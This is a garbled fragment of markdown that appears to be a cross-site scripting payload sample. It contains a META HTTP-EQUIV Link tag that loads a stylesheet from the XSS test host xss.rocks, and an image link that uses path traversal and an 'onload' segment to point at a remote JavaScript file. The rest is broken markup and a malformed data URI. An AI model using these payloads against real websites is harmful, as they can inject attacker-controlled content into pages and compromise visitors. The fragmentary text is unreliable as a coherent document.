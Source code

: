 ![

<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">


](()
![a](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)
